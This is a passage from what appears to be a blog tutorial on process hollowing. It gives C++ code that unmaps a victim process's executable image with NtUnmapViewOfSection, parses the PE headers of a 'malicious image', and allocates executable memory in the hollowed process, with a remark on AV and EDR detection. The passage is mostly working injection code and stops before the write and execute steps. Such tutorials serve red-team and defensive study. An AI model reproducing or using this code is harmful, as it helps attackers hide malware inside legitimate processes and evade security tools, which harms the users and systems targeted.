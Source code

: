 Since `NtUnmapViewOfSection()` is part of the `ntdll.dll` library, meaning it is a native API, we need to call it using the following code, which should be defined before the `main()` function.

```c++
#pragma comment(lib, "ntdll.lib")

EXTERN_C NTSTATUS NTAPI NtUnmapViewOfSection(HANDLE, PVOID);
```

Now that we can use it, we can call `NtUnmapViewOfSection()` directly and specify the parsed image base address to hollow out the process.

```c++
// Unmapping the image from victim process
DWORD dwResult = NtUnmapViewOfSection(pVictimProcessInfo->hProcess, pVictimImageBaseAddr);
if (dwResult)
{
 std::cout << "[-] Failed to unmap the executable image from victim process.\n";
 TerminateProcess(pVictimProcessInfo->hProcess, 1);
 return 1;
}
```

## Allocating Memory

We can now focus on allocating memory inside the hollowed process. For this, we will need to know the size of our malicious image. Most of the information about the `PE` files can be retrieved by parsing them.

We will parse the malicious image by casting it to a `PIMAGE_DOS_HEADER` pointer structure to obtain the DOS header. Additionally, we will need to get the NT header of the malicious image by adding the value of `e_lfanew`, as it contains the number of bytes between the DOS and NT headers. This allows us to easily offset to the NT header.

>In case you’re unfamiliar with the PE file format, I suggest reading the following awesome blog series on parsing PE files: https://0xrick.github.io/win-internals/pe8/
{: .prompt-tip}

```c++
// Prase the DOS and NT headers from the malicious image
PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMalImage;
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMalImage + pDOSHeader->e_lfanew);
DWORD malImageBaseAddr = pNTHeaders->OptionalHeader.ImageBase;
DWORD sizeOfMalImage = pNTHeaders->OptionalHeader.SizeOfImage;

// Log the data to the console
std::cout << "[+] Malicious image data successfully extracted.\n";
std::cout << "\t[i] malImageBaseAddr -> 0x" << std::hex << malImageBaseAddr << '\n';
std::cout << "\t[i] Malicious process entry point -> 0x" << std::hex << pNTHeaders->OptionalHeader.AddressOfEntryPoint << '\n';
```

Now that we’ve parsed the required addresses of the malicious image we want to inject, we can allocate the needed amount of memory inside the hollowed process using the `VirtualAllocEx()` API.

```c++
PVOID pVictimHollowedAlloc = VirtualAllocEx(pVictimProcessInfo->hProcess,
 (PVOID)pVictimImageBaseAddr,
 sizeOfMalImage,
 MEM_COMMIT | MEM_RESERVE,
 PAGE_EXECUTE_READWRITE); // <-- Highly detected by AV's and EDRs :)
if (!pVictimHollowedAlloc)
{
 std::cout << "[-] Failed to allocate memory in victim process: " << GetLastError() << '\n';
 TerminateProcess(pVictimProcessInfo->hProcess, 1);
 return 1;
}

```